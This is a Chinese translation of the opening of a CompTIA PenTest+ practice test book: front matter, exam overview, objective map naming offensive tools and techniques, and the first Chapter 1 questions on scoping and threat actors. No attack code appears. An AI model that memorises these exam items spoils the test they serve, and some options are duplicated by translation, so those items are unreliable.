# CompTIA PenTest+ 实践指南：Exam PT0-001


*本书献给我的丈夫 William Panek，以及我的女儿 Alexandria 和 Paige。感谢你们所有的爱与支持。我比任何事物都更爱你们！*
*—CMP*

# 致谢
我想要感谢我的丈夫兼挚友 Will，因为没有他我不会走到今天——谢谢你！我还要表达我对两个女儿 Alexandria 和 Paige 的爱，她们一直给予我无尽的爱与支持。感谢你们所有人！
作者要感谢我们 Sybex 团队的每一个人，尤其是我们的开发编辑 Adaobi Obi Tulton，她帮助使本书成为最好的书籍，以及 S. Russell Christy，他是技术编辑。拥有最优秀的技术专家支持总是很重要的。我们要感谢 Amy Odum，她是我们的生产编辑，以及校对编辑 Kim Wimpsett。
特别感谢我们的收购编辑 Kenyon Brown。最后，我们还要感谢幕后所有帮助本书成书的人。我们感谢你们所有人的辛勤工作和奉献。

# 作者简介
**Crystal Panek** 持有以下认证：MCP、MCP+I、MCSA、MCSA+ Security and Messaging、MCSE-NT (3.51 & 4.0)、MCSE 2000、2003、2012/2012 R2、2016、MCSE+Security and Messaging、MCDBA、MCTS、MCITP。
多年来她担任合同讲师，在 MicroC、Stellacon Corporation 和新罕布什尔大学等地方授课。随后她成为一家大型 IT 培训公司的副总裁，15 年来她开发培训材料和课程，帮助成千上万的学生通过认证考试。她目前受合同聘用，为几家大型 IT 培训机构创建课程 ware。
她目前与丈夫和两个女儿居住在新罕布什尔州。业余时间，她喜欢露营、徒步、射飞碟和 Skeet、打高尔夫、保龄球和雪地摩托。

# 技术编辑简介
S. Russell Christy 是来自田纳西州孟菲斯的技术培训师，涵盖多种产品，专长于计算机维护和网络与安全；Microsoft Office 应用；以及网页和印刷设计。20 多年来，他在部署新台式机和操作系统、服务器、网络硬件和软件的同时，同时排除各种硬件和软件问题。
Christy 先生拥有孟菲斯大学工商管理学士学位。他还获得了 CompTIA A+、CompTIA Network+、CompTIA Server+、CompTIA Security+、CompTIA CySA+、Cisco CCNA CyberOps、MTA Windows Server Administration Fundamentals、Network Fundamentals、Security Fundamentals 和 Windows OS Fundamentals 以及 Adobe Education Trainer 的行业认证。


## 指南
1. 封面
2.
3. 介绍

## 页面
1. iii
2. iv
3. v
4. vii
5. ix
6. xi
7. xv
8. xvi
9. xvii
10. xviii
11. xix
12. xx
13. xxi
14. xxii
15. xxiii
16. xxiv
17. 1
18. 2
19. 3
20. 4
21. 5
22. 6
23. 7
24. 8
25. 9
26. 10
27. 11
28. 12
29. 13
30. 14
31. 15
32. 16
33. 17
34. 18
35. 19
36. 20
37. 21
38. 22
39. 23
40. 24
41. 25
42. 26
43. 27
44. 28
45. 29
46. 30
47. 31
48. 32
49. 33
50. 34
51. 35
52. 36
53. 37
54. 38
55. 39
56. 41
57. 42
58. 43
59. 44
60. 45
61. 46
62. 47
63. 48
64. 49
65. 50
66. 51
67. 52
68. 53
69. 54
70. 55
71. 56
72. 57
73. 58
74. 59
75. 60
76. 61
77. 62
78. 63
79. 64
80. 65
81. 66
82. 67
83. 68
84. 69
85. 70
86. 71
87. 72
88. 73
89. 74
90. 75
91. 76
92. 77
93. 78
94. 79
95. 80
96. 81
97. 82
98. 83
99. 84
100. 85
101. 86
102. 87
103. 88
104. 89
105. 90
106. 91
107. 92
108. 93
109. 94
110. 95
111. 96
112. 97
113. 98
114. 99
115. 100
116. 101
117. 102
118. 103
119. 104
120. 105
121. 106
122. 107
123. 108
124. 109
125. 110
126. 111
127. 112
128. 113
129. 114
130. 115
131. 116
132. 117
133. 118
134. 119
135. 120
136. 121
137. 122
138. 123
139. 124
140. 125
141. 126
142. 127
143. 128
144. 129
145. 130
146. 131
147. 132
148. 133
149. 134
150. 135
151. 137
152. 138
153. 139
154. 140
155. 141
156. 142
157. 143
158. 144
159. 145
160. 146
161. 147
162. 148
163. 149
164. 150
165. 151
166. 152
167. 153
168. 154
169. 155
170. 156
171. 157
172. 158
173. 159
174. 160
175. 161
176. 162
177. 163
178. 164
179. 165
180. 166
181. 167
182. 168
183. 169
184. 170
185. 171
186. 172
187. 173
188. 174
189. 175
190. 176
191. 177
192. 178
193. 179
194. 181
195. 182
196. 183
197. 184
198. 185
199. 186
200. 187
201. 188
202. 189
203. 190
204. 191
205. 192
206. 193
207. 194
208. 195
209. 196
210. 197
211. 198
212. 199
213. 200
214. 201
215. 202
216. 203
217. 204
218. 205
219. 206
220. 207
221. 208
222. 209
223. 210
224. 211
225. 212
226. 213
227. 214
228. 215
229. 216
230. 217
231. 218
232. 219
233. 220
234. 221


238. 225
239. 226
240. 227
241. 228
242. 229
243. 230
244. 231
245. 232
246. 233
247. 234
248. 235
249. 236
250. 237
251. 238
252. 239
253. 240
254. 241
255. 242
256. 243
257. 244
258. 245
259. 246
260. 247
261. 248
262. 249
263. 251
264. 252
265. 253
266. 254
267. 255
268. 256
269. 257
270. 258
271. 259
272. 260
273. 261
274. 262
275. 263
276. 264
277. 265
278. 266
279. 267
280. 268
281. 269
282. 270
283. 271
284. 272
285. 273
286. 274
287. 275
288. 276
289. 277
290. 278
291. 279
292. 280
293. 281
294. 282
295. 283
296. 284
297. 285
298. 286
299. 287
300. 288
301. 289
302. 290
303. 291
304. 292
305. 293
306. 294
307. 295
308. 296
309. 297
310. 298
311. 299
312. 300
313. 301
314. 302
315. 303
316. 304
317. 305
318. 306
319. 307
320. 308
321. 309
322. 310
323. 311
324. 312
325. 313
326. 314
327. 315
328. 316
329. 317
330. 318
331. 319
332. 320
333. 321
334. 322
335. 323
336. 324
337. 325
338. 326
339. 327
340. 328
341. 329
342. 330
343. 331
344. 332
345. 333
346. 334
347. 335
348. 336
349. 337
350. 338
351. 339
352. 340
353. 341
354. 342
355. 343
356. 344
357. 345
358. 346
359. 347
360. 348
361. 349
362. 350
363. 351
364. 352
365. 353
366. 354
367. 355
368. 356
369. 357
370. 358
371. 359
372. 361
373. 362
374. 363
375. 364
376. 365
377. 366
378. 367
379. 368
380. 369
381. 370
382. 371
383. 372
384. 373
385. 374
386. 375
387. 376
388. 377
389. 378
390. 379
391. 380
392. 381
393. 382
394. 383
395. 384
396. 385

# 引言

*CompTIA PenTest+ 练习测试：考试 PT0-001* 是 CompTIA PenTest+ 学习指南：考试 PT0-*001* 的配套书籍。本书将帮助您在参加 PenTest+ 考试前测试您的知识。我们提供了超过 1,000 道题目，涵盖 CompTIA PenTest+ 认证考试目标的概念。本书将帮助您准备参加 CompTIA PenTest+（PT0-001）考试。

使用本书作为指南，帮助您在参加实际考试前确定需要重点关注的内容。

在尝试参加 PenTest+ 考试之前，您应已是一名从事安全实践的专业人员。CompTIA 建议考生应具备基于其网络安全职业路径的中级技能水平。您还应熟悉本书中涵盖的一些工具和技术。

## CompTIA

CompTIA 是一个非营利性行业组织，提供多种信息技术领域的认证。认证范围从 A+ 考试——成为 PC 支持技术员所需的技能，到更高级的认证，如 CompTIA 高级安全从业者（CASP）。随着网络攻击数量不断增加和新型联网设备的出现，对熟练的网络安全专业人员的需求正在迅速增长。CompTIA 网络安全职业路径将帮助 IT 专业人员实现网络安全精通。

CompTIA CySA+ 和 CompTIA PenTest+ 考试被视为更高级的考试，面向具有实践经验且掌握职业路径中前期考试所涵盖知识的专业人士。

CompTIA 认证获得 ISO 和 ANSI 认可，并在众多行业中用作衡量个人技术技能和知识的标准。

## 为什么要认证？

CompTIA 认证帮助个人在信息技术领域打造出色的职业生涯，并使公司拥有知识丰富且训练有素的员工。在当今时代，认证在 IT 领域被视为非常重要。雇主在招聘或晋升时需要确保候选人具备该职位所需的技能，而认证则提供了这些技能的证明。

CompTIA PenTest+ 面向从事渗透测试和漏洞管理的网络安全专业人员。

以下是一些使用 CompTIA PenTest+ 的职位列表：

* 渗透测试员
* 漏洞测试员
* 安全分析师（II）
* 漏洞评估分析师
* 网络安全运营


# 应用安全漏洞

## CompTIA PenTest+ 考试

2018 年 7 月 31 日，CompTIA 推出了 PenTest+ 认证。此网络安全认证专为需要识别、利用、报告和管理网络漏洞的 IT 专业人员设计。

CompTIA PenTest+ 考试是在 Pearson VUE 考试中心进行的唯一渗透测试考试，其中包含基于绩效的问题和多项选择题，以确保考生具备在系统上执行任务所需的技能和知识。

PenTest+ 考试的独特之处在于要求考生展示其动手能力和知识，以测试传统桌面和服务器以及云和移动等新环境中的设备。

完成 PenTest+ 考试后，成功考生将具备定制和执行评估以及高效报告任何发现所需的技能。考生还将能够沟通并推荐策略，以改善网络的整体 IT 安全状况。

PenTest+ 考试旨在成为渗透测试人员的厂商中立认证。它旨在衡量当前渗透测试、漏洞评估和漏洞管理技能，重点关注网络弹性测试。成功考生将证明其规划和确定评估范围的能力，了解如何处理法律和合规要求，并使用各种工具和技术执行漏洞扫描和渗透测试活动，以及随后分析结果。

本书分为以下考试目标：

* 第 1 章：规划和范围界定
* 第 2 章：信息收集和漏洞识别
* 第 3 章：攻击和利用
* 第 4 章：渗透测试工具
* 第 5 章：报告和沟通

这五个领域包括一系列子主题，从确定渗透测试范围到执行主机枚举和利用。

CompTIA 建议考生在参加此考试前具备三年或四年的信息安全相关经验。虽然没有必需的先决条件，但 CompTIA 建议考生已参加 Security+ 考试或具有同等经验。考试费用为 $349 USD。

有关 PenTest+ 考试的更多信息以及如何参加考试，可在以下网址找到：[`certification.comptia.org/certifications/pentest`](https://certification.comptia.org/certifications/pentest)。

## 如何获得 CompTIA PenTest+ 认证？

准备好参加考试后，您可以访问 CompTIA 网站购买考试凭证：

[`store.comptia.org/p/CompTIAPENTEST`](https://store.comptia.org/p/CompTIAPENTEST)

获得凭证号码后，您需要联系 Pearson VUE。CompTIA 已与 Pearson VUE 合作，后者在全球设有测试中心。要查找离您最近的测试中心并安排考试，请访问：[`home.pearsonvue .com/comptia`](https://home.pearsonvue.com/comptia)。

Pearson VUE 要求考生登录其系统以安排考试。如果您已有账户，只需登录即可。如果您没有账户，则需要创建一个。

考试当天请务必携带两种形式的身份证明，并确保比考试开始时间更早到达，以便您有足够时间登录。请记住，您将无法携带任何笔记、电子设备或其他材料进入。您可以将它们留在您的车辆中，或者测试中心将为您提供安全存放物品的地方。

## 完成 PenTest+ 考试后

完成考试后，您将立即知道您的成绩。测试中心将向您提供一份成绩报告副本并让您办理离场手续。您应保留成绩报告副本以及考试注册记录和用于注册考试的电子邮件地址。

## 维护您的认证

CompTIA 认证必须定期续期。要续期您的认证，您必须通过考试的最新版本，或获得符合条件的更高级别 CompTIA 或行业认证，或完成足够的继续教育活动以获得足够的继续教育单元（CEUs）来续期。在本书撰写时，如果使用 CEUs 续期 PenTest+ 认证，则需要 60 CEUs。

CompTIA 在以下网址提供有关续期的更多信息：

[`certification.comptia.org/continuing-education/how-to-renew`](https://certification.comptia.org/continuing-education/how-to-renew)

当您注册续期认证时，您将被要求同意继续教育（CE）计划的道德准则，支付续期费用，并提交所选续期方法所需的材料。

## 使用本书进行练习

本书分为七章。

* 第 1 章：规划和范围界定
* 第 2 章：信息收集和漏洞识别
* 第 3 章：攻击和利用
* 第 4 章：渗透测试工具
* 第 5 章：报告和沟通
* 第 6 章：练习考试 1
* 第 7 章：练习考试 2

每章涵盖一个考试目标，并提供各种问题，可帮助您测试对 PenTest+ 考试目标的理解。最后两章是练习考试，可作为计时练习考试，帮助确定您是否准备好参加 PenTest+ 考试。

我们建议参加练习考试，以帮助确定您可能需要花费更多时间学习的地方。

在完成本书中的一些问题时，您可能会遇到不熟悉的工具和技术。如果您发现有困难，我们建议您花一些额外的时间阅读书籍和材料，以帮助您深入了解感兴趣的主题。这将有助于填补任何空白，并帮助您更好地准备考试。

## CompTIA PenTest+ 认证考试目标

本书已撰写以涵盖 PenTest+ 考试目标。下表列出了该考试衡量的领域及其所占比例。

| 考试目标 || 考试占比 |
| --- | --- |
| 1.0 规划和范围界定 || 15% |
| --- | --- |
| 2.0 信息收集和漏洞识别 || 22% |
| 3.0 攻击和利用 || 30% |
| 4.0 渗透测试工具 || 17% |
| 5.0 报告和沟通 || 16% |
| 总计 || 100% |

## CompTIA PenTest+ 考试 PT0-001 的目标映射

以下 CompTIA PenTest+ 认证考试的目标映射将使您能够找到本书中涵盖每个目标的位置。

### 目标映射

| 目标 || 章节 |
| --- | --- |
| 1.0 规划和范围界定 |
| 1.1 解释参与规划的重要性。 || 第 1 章 |
| --- | --- |
| 理解目标受众，参与规则，沟通升级路径，资源和要求，发现的保密性，已知与未知，预算，影响分析和补救时间表，免责声明，特定时间点评估，全面性，技术限制，支持资源，Web 服务描述语言/Web 应用描述语言 (WSDL/WADL)，Simple Object Access Protocol (SOAP) 项目文件，软件开发工具包 (SDK) 文档，Swagger 文档，XML 模式文档 (XSD)，示例应用程序请求，架构图 || |
| 1.2 解释关键法律概念。 || 第 1 章 |


合同，工作说明书 (SOW)，主服务协议 (MSA)，不披露协议 (NDA)，环境差异，出口限制，地方和国家政府限制，公司政策，书面授权，获取适当签署授权人的签名，必要时获得第三方提供商授权

### 1.3 解释正确界定参与范围的重要性。 第 1 章

评估类型，基于目标/基于目标的，基于合规的，红队，特殊范围考虑，合并前，供应链，目标选择，目标，内部，现场与非现场，外部，第一方托管与第三方托管，物理用户，服务集标识符 (SSID)，应用程序，考虑因素，白名单与黑名单，安全例外，入侵防御系统/ Web 应用防火墙 (IPS/WAF) 白名单，网络访问控制 (NAC)，证书钉扎，公司的政策，策略，黑盒 vs. 白盒 vs. 灰盒，风险接受，对影响的容忍度，安排，范围蔓延，威胁行为者，对手层级，高级持续性威胁 (APT)，脚本小子，黑客活动人士，内部威胁，能力，意图，威胁模型

### 1.4 解释基于合规的评估的关键方面。 第 1 章

基于合规的评估，限制和注意事项，完成评估的规则，密码策略，数据隔离，密钥管理，限制，限制网络访问，限制存储访问，明确定义的目标，基于法规

## 2.0 信息收集和漏洞识别

### 2.1 在给定场景下，使用适当技术进行信息收集。 第 2 章

扫描，枚举，主机，网络，域，用户，组，网络共享，网页，应用程序，服务，令牌，社交网络站点，数据包伪造，数据包检查，指纹识别，密码学，证书检查，窃听，射频 (RF) 通信监控，嗅探，有线，无线，反编译，调试，开源情报收集，研究来源，计算机应急响应团队 (CERT)，国家标准与技术研究所 (NIST)，日本计算机应急响应团队 (JPCERT)，常见攻击模式枚举分类 (CAPEC)，完全公开，常见漏洞披露 (CVE)，常见弱点枚举 (CWE)

### 2.2 在给定场景下，执行漏洞扫描。 第 2 章

凭据化 vs. 非凭据化，扫描类型，发现扫描，完整扫描，隐蔽扫描，合规扫描，容器安全，应用程序扫描，动态 vs. 静态分析，漏洞扫描的考虑因素，运行扫描的时间，使用的协议，网络拓扑，带宽限制，查询限流，脆弱系统/非传统资产

### 2.3 在给定场景下，分析漏洞扫描结果。 第 2 章

资产分类，裁定，误报，漏洞优先级排序，常见主题，漏洞，观察结果，缺乏最佳实践

### 2.4 解释利用信息为利用做准备的过程。 第 2 章

将漏洞映射到潜在利用，为渗透测试做准备时优先考虑活动，描述完成攻击的常见技术，跨编译代码，利用修改，利用链，概念验证开发 (利用开发)，社会工程，凭据暴力破解，字典攻击，彩虹表，欺骗

### 2.5 解释与专用系统相关的弱点。 第 2 章

工业控制系统 (ICS)，监控与数据采集 (SCADA)，移动，物联网 (IOT)，嵌入式，销售点系统，生物识别，应用程序容器，实时操作系统 (RTOS)

## 3.0 攻击与利用

### 3.1 比较和对比社会工程攻击。 第 3 章

钓鱼，精准钓鱼，短消息服务 (SMS) 钓鱼，语音钓鱼，捕鲸式钓鱼，诱导，企业电子邮件泄露，审问，冒充，肩窥，通用串行总线 (USB) 钥匙掉落，动机技术，权威，稀缺，社会认同，紧迫性，相似性，恐惧

### 3.2 在给定场景下，利用基于网络的漏洞。 第 3 章

名称解析利用，网络基本输入/输出系统 (NETBIOS) 名称服务，链路本地多播名称解析 (LLMNr)，服务器消息块 (SMB) 利用，简单网络管理协议 (SNMP) 利用，简单邮件传输协议 (SMTP) 利用，文件传输协议 (FTP) 利用，域名服务 (DNS) 缓存中毒，传递哈希，中间人，地址解析协议 (ARP) 欺骗，重放，中继，安全套接层 (SSL) 去除，降级，拒绝服务 (DOS)/压力测试，网络访问控制 (NAC) 绕过，虚拟局域网 (VLAN) 跳转

### 3.3 在给定场景下，利用无线和射频漏洞。 第 3 章

恶意双胞胎，karma 攻击，降级攻击，去认证攻击，分片攻击，凭据收割，Wi-Fi 保护设置 (WPS) 实现弱点，蓝牙劫持，蓝牙窃取，射频识别 (RFID) 克隆，干扰，重放

### 3.4 在给定场景下，利用基于应用程序的漏洞。 第 3 章

注入，结构化查询语言 (SQL)，超文本标记语言 (HTML)，命令，代码，身份验证，凭据暴力破解，会话劫持，重定向，默认凭据，弱凭据，Kerberos 利用，授权，参数污染，不安全直接对象引用，跨站脚本 (XSS)，存储/持久，反射，文档对象模型 (DOM)，跨站请求伪造 (CSRF/XSRF)，点击劫持，安全配置错误，目录遍历，Cookie 操作，文件包含，本地，远程，不安全代码实践，源代码中的注释，缺乏错误处理，过于详细的错误处理，硬编码凭据，竞态条件，未经授权使用函数/未受保护的应用程序编程接口 (API)，隐藏元素，文档对象模型 (DOM) 中的敏感信息，缺少代码签名

### 3.5 在给定场景下，利用本地主机漏洞。 第 3 章

操作系统 (OS) 漏洞，Windows，Mac 操作系统 (OS)，Linux，Android，iPhone 操作系统 (iOS)，不安全服务和协议配置，权限提升，Linux 特定，设置用户 ID/设置组 ID (SUID/SGID) 程序，不安全 sudo，ret2libc，粘滞位，Windows 特定，cpassword，轻量级目录访问协议 (LDAP) 中的明文凭据，Kerberoasting，本地安全机构子系统服务 (LSASS) 中的凭据，无人值守安装，安全账户管理器 (SAM) 数据库，动态链接库 (DLL) 劫持，可利用服务，未加引号的服务路径，可写服务，不安全文件/文件夹权限，键盘记录器，计划任务，内核利用，默认账户设置，沙箱逃逸，shell 升级，虚拟机 (VM)，容器，物理设备安全，冷启动攻击，联合测试行动小组 (JTAG) 调试，串行控制台

### 3.6 总结与设施相关的物理安全攻击。 第 3 章

跟随/尾随，翻越围栏，垃圾翻找，撬锁，锁绕过，出口传感器，徽章克隆

### 3.7 在给定场景下，执行后利用技术。 第 3 章


`Lateral movement`, `remote procedure call`/`distributed component object model` (`RPC/DCOM`), `PsExec`, `Windows management instrumentation` (`WMI`), `scheduled tasks`, `PowerShell` (`PS`) `remoting`/`WinRM`, `server message block` (`SMB`), `remote desktop protocol` (`RDP`), `Apple remote desktop`, `virtual network connection` (`VNC`), `X-server forwarding`, `Telnet`, `secure shell` (`SSH`), `remote shell` (`RSH`)`/Rlogin`, `persistence`, `scheduled jobs`, `scheduled tasks`, `daemons`, `back doors`, `trojan`, `new user creation`, `covering your tracks`

## 4.0 渗透测试工具

### 4.1 给定一个场景，使用 Nmap 进行信息收集练习。 第 4 章

`Synchronize (SYN) scan (-sS)` vs. `full connect scan (-sT)`, `Port selection (-p)`, `Service identification (-sV)`, `OS fingerprinting (-O)`, `disabling ping (-Pn)`, `target input file (-iL)`, `timing (-T)`, `output parameters`, `-oA` (all), `-oN` (normal), `-oG` (greppable/searchable), `-oX` (XML output)

### 4.2 比较和对比各种工具的用例。 第 4 章

`Use cases`, `reconnaissance`, `enumeration`, `vulnerability scanning`, `credential attacks`, `offline password cracking`, `brute-forcing services`, `persistence`, `configuration compliance`, `evasion`, `decompilation`, `forensics`, `debugging`, `software assurance`, `fuzzing`, `static application security testing (SAST)`, `dynamic application security testing (DAST)`, `tools`, `scanners`, `Nikto`, `OpenVAS`, `SQLmap`, `Nessus`, `credential testing tools`, `Hashcat`, `Medusa`, `Hydra`, `CeWL`, `John the Ripper`, `Cain and Abel`, `Mimikatz`, `Patator`, `Dirbuster`, `Web Application Attack and Audit Framework (W3AF)`, `debuggers`, `OLLYDBG`, `immunity debugger`, `GNU Project Debugger (GDB)`, `WinDBG`, `IDA`, `software assurance`, `findbugs/findsecbugs`, `Peach`, `AFL`, `SonarQube`, `YASCA`, `open source intelligence (OSINT)`, `whois`, `nslookup`, `foca`, `TheHarvester`, `Shodan`, `Maltego`, `Recon-NG`, `Censys`, `Wireless`, `Aircrack-NG`, `Kismet`, `WiFite`, `Web proxies`, `OWASP ZAP`, `Burp Suite`, `Social Engineering Tools (SET)`, `Browser Exploitation Framework (BeEF)`, `remote access tools`, `secure shell (SSH)`, `NCAT`, `NETCAT`, `proxychains`, `networking tools`, `Wireshark`, `Hping`, `mobile tools`, `Drozer`, `APKX`, `APK studio`, `MISC`, `searchsploit`, `powersploit`, `responder`, `impacket`, `empire`, `metasploit framework`

### 4.3 给定一个场景，分析与渗透测试相关的工具输出或数据。 第 4 章

`Password cracking`, `pass the hash`, `setting up a bind shell`, `setting a reverse shell`, `proxying a connection`, `uploading a web shell`, `injections`

### 4.4 给定一个场景，分析一个基本脚本（限于 Bash、Python、Ruby 和 PowerShell）。 第 4 章

`Logic`, `looping`, `flow control`, `input/output (I/O)`, `file vs. terminal vs. network`, `substitutions`, `variables`, `common operations`, `string operations`, `comparisons`, `error handling`, `arrays`, `encoding/decoding`

## 5.0 报告与沟通

### 5.1 给定一个场景，使用报告编写和处理的最佳实践。 第 5 章

`Normalization of data`, `written report of findings and remediation`, `executive summary`, `methodology`, `findings and remediation`, `metrics and measures`, `risk rating`, `conclusion`, `risk appetite`, `storage time for report`, `secure handling and disposition of reports`

### 5.2 解释报告交付后的活动。 第 5 章

`Post-engagement cleanup`, `removing shells`, `removing tester-related credentials`, `removing tools`, `client acceptance`, `lessons learned`, `follow-up actions/retest`, `attestation of findings`

### 5.3 给定一个场景，为发现的漏洞推荐缓解策略。 第 5 章

`solutions`, `people`, `process`, `technology`, `findings`, `shared local administrator credentials`, `weak password complexity`, `plain text passwords`, `no multifactor authentication`, `Structured Query Language (SQL) injection`, `unnecessary open services`, `remediation`, `randomize credentials/ local administrator password solution (LAPS)`, `minimum password requirements/password filters`, `encrypt the passwords`, `implement multifactor authentication`, `sanitize user input/parameterize queries`, `system hardening`

### 5.4 解释渗透测试过程中沟通的重要性。 第 5 章

`Communication path`, `communication triggers`, `critical findings`, `stages`, `indicators of prior compromise`, `reasons for communication`, `situational awareness`, `de-escalation`, `de-confliction`, `goal reprioritization`

# 第 1 章
## 规划和界定渗透测试

### 本章涵盖的 PENTEST+ 考试主题包括：

#### 领域 1：规划和界定

#####  1.1 解释规划参与的重要性。
`Understanding the target audience`
`Rules of engagement`
`Communication escalation path`
`Resources and requirements`
`Confidentiality of findings`
`Known vs. unknown`
`Budget`
`Impact analysis and remediation timelines`
`Disclaimers`
`Point-in-time assessment`
`Comprehensiveness`
`Technical constraints`
`Support resources`
`WSDL/WADL`
`SOAP project file`
`SDK documentation`
`Swagger document`
`XSD`
`Sample application requests`
`Architectural diagram`

#####  1.2 解释关键法律概念。
`Contracts`
`SOW`
`MSA`
`NDA`
`Environmental differences`
`Export restrictions`
`Local and national government restrictions`
`Corporate policies`
`Written authorization`
`Obtain signature from proper signing authority`
`Third-party provider authorization when necessary`

#####  1.3 解释正确界定参与范围的重要性。
`Types of assessments`
`Goals-based/objectives-based`
`Compliance-based`
`Red team`
`Special scoping considerations`
`Premerger`
`Supply chain`
`Target selection`
`Targets`
`Internal`
`On-site vs. off-site`
`External`
`First-party vs. third-party hosted`
`Physical`
`Users`
`SSIDs`
`Applications`
`Considerations`
`White-listed vs. black-listed`
`Security exceptions`
`IPS/WAF whitelist`
`NAC`
`Certificate pinning`
`Company’s policies`
`Strategy`
`Black box vs. white box vs. gray box`
`Risk acceptance`
`Tolerance to impact`
`Scheduling`
`Scope creep`
`Threat actors`
`Adversary tier`
`APT`
`Script kiddies`
`Hacktivist`
`Insider threat`
`Capabilities`
`Intent`
`Threat models`

#####  1.4 解释基于合规的评估的关键方面。
`Compliance-based assessments, limitations, and caveats`
`Rules to complete assessment`
`Password policies`
`Data isolation`
`Key management`
`Limitations`
`Limited network access`
`Limited storage access`
`Clearly defined objectives based on regulations`

您已被要求为一家销售售后摩托车零件的在线中型组织执行渗透测试。您应该完成的第一个任务是什么？
1. 研究该组织的产品供应。
2. 确定测试可用的预算。
3. 确定测试范围。
4. 获得执行测试的授权。


# 渗透测试问题

### 2. 已聘请一名顾问为某组织进行渗透测试。测试目标是该组织的专有设计文档。目的是规避安全措施并未经授权访问这些文档。在此场景中正在进行哪种类型的评估？
1. 基于目标的评估
2. 基于目标的评估
3. 合规性评估
4. 红队评估

### 3. 已聘请一名顾问为医疗行业组织进行渗透测试。测试目标是一个面向公众的自助服务网站，用户可通过该网站查看其健康记录。目的是规避安全措施并未经授权访问此信息。在此场景中正在进行哪种类型的评估？
1. 基于目标的评估
2. 灰盒评估
3. 合规性评估
4. 白盒评估

### 4. 已聘请一名顾问为医疗行业组织进行渗透测试。测试目标是一个面向公众的自助服务网站，用户可通过该网站查看其健康记录。渗透测试人员已获得组织底层网络的完整知识。此示例中正在进行哪种类型的测试？
1. 基于目标的评估
2. 黑盒评估
3. 基于目标的评估
4. 白盒评估

### 5. 在何种类型的渗透测试中，测试人员对目标环境只有有限的信息，但未被授予完全访问权限？
1. 灰盒评估
2. 黑盒评估
3. 合规性评估
4. 白盒评估

### 6. 哪种类型的渗透测试最能复制现实世界攻击者的视角？
1. 灰盒评估
2. 黑盒评估
3. 基于目标的评估
4. 白盒评估

### 7. 已聘请一名顾问为组织进行渗透测试。测试目标是该组织的 HR 数据库应用程序。测试人员已获得一台办公桌、一台连接至组织网络的计算机以及网络图。然而，测试人员未获得任何身份验证凭据。在此场景中正在进行哪种类型的测试？
1. 合规性评估
2. 黑盒评估
3. 灰盒评估
4. 白盒评估

### 8. 已聘请一名顾问为组织进行渗透测试。测试目标是该组织的电子商务网站。测试人员位于不同城市，将利用多种渗透测试工具分析该网站并对其进行攻击。测试人员没有任何关于该网站的信息或身份验证凭据。在此场景中正在进行哪种类型的测试？
1. 白盒评估
2. 黑盒评估
3. 基于目标的评估
4. 灰盒评估

### 9. 已聘请一名顾问为组织进行渗透测试。测试目标是该组织的内部防火墙。测试人员已获得一台办公桌、一台连接至组织网络的计算机以及网络图。测试人员还获得了具有相当高访问级别的身份验证凭据。在此场景中正在进行哪种类型的测试？
1. 灰盒评估
2. 黑盒评估
3. 基于目标的评估
4. 白盒评估

### 10. 哪种类型的渗透测试最能集中测试人员的时间和精力，同时仍提供现实攻击者所见情况的近似视图？
1. 灰盒评估
2. 黑盒评估
3. 基于目标的评估
4. 白盒评估

### 11. 攻击者从互联网下载 Low Orbit Ion Cannon，然后使用它对前雇主的网站进行拒绝服务攻击。这是什么类型的攻击者？
1. 脚本小子
2. 黑客活动分子
3. 有组织犯罪
4. 国家行为体

### 12. 攻击者对邻国的一家政府承包商发动攻击，目标是通过承包商访问敌对国家的政府网络基础设施。攻击者本国政府正在指挥和资助此次攻击。这是什么类型的威胁行为者？
1. 脚本小子
2. 黑客活动分子
3. 有组织犯罪
4. 国家行为体

### 13. 一群位于前苏联集团国家的黑客联合起来并在互联网上发布了一个勒索软件应用程序。他们的目标是以加密货币的形式从受害者那里勒索钱财。这是什么类型的攻击者？
1. 恶意内部人员
2. 黑客活动分子
3. 有组织犯罪
4. 国家行为体

### 14. 一名对卤虫充满热情的倡导者攻击并篡改了一家捕捞卤虫并将其作为鱼食出售的公司的网站。这是什么类型的攻击者？
1. 脚本小子
2. 黑客活动分子
3. 有组织犯罪
4. 国家行为体

### 15. 一名员工刚刚从经理那里收到了非常负面的绩效评估。员工认为评估有偏见，差评不合理。作为报复，员工从 HR 数据库服务器访问了机密员工薪酬信息，并匿名发布在 Glassdoor 上。这是什么类型的攻击者？
1. 脚本小子
2. 黑客活动分子
3. 有组织犯罪
4. 恶意内部人员

### 16. 以下哪些攻击者最有可能实施高级持续性威胁（APT）？（选择两项。）
1. 恶意内部人员
2. 脚本小子
3. 黑客活动分子
4. 有组织犯罪
5. 国家行为体

### 17. 以下哪些实体最有可能成为高级持续性威胁（APT）的目标？（选择两项。）
1. 政府承包商
2. 提供搜索引擎优化（SEO）课程的网站
3. 跨国银行
4. 牙科诊所
5. 社区学院

### 18. 哪种威胁行为者最有可能出于政治原因而被动机驱动？
1. 恶意内部人员
2. 黑客活动分子
3. 有组织犯罪
4. 脚本小子

### 19. 哪种威胁行为者最有可能出于渴望获得关注而被动机驱动？
1. 恶意内部人员
2. 脚本小子
3. 有组织犯罪
4. 国家行为体

### 20. 哪种类型的渗透测试通常能在最短时间内提供最彻底的评估？
1. 灰盒评估
2. 黑盒评估
3. 基于目标的评估
4. 白盒评估

### 21. 你正在进行研究，该研究将用于定义贵公司将为客户执行的渗透测试范围。你的研究中必须包含哪些信息？（选择两项。）
1. 为什么要进行测试？
2. 上次进行测试是什么时候？
3. 上次测试的结果是什么？
4. 账单应发送给谁？
5. 测试的目标受众是谁？

### 22. 你正在记录即将进行的渗透测试的参与规则（ROE）。必须包含哪些要素？（选择两项。）
1. 参与的时间线
2. 对专门规范目标的法律的审查
3. 过去你已评估的类似组织的列表
4. 目标竞争对手的列表
5. 目标网络的详细地图

### 23. 你正在记录即将进行的渗透测试的参与规则（ROE）。应确保包含哪些要素？（选择两项。）
1. 详细的计费程序
2. 不在范围内的系统列表
3. 在范围内的系统列表


# 渗透测试参与规则

4. 通知目标竞争对手有关此次参与的获批流程
5. 解决你与客户之间纠纷的仲裁程序

## 24. 你正在为即将进行的渗透测试记录参与规则（ROE）。应考虑哪些要素？（选择两项。）
1. 你将用于进行测试的系统分配的 IP 地址列表
2. 你将如何与目标沟通测试结果
3. 测试期间你将使用的渗透测试工具列表
4. 你曾为其进行过渗透测试的过去客户的推荐名单
5. 测试期间目标不允许的行为列表

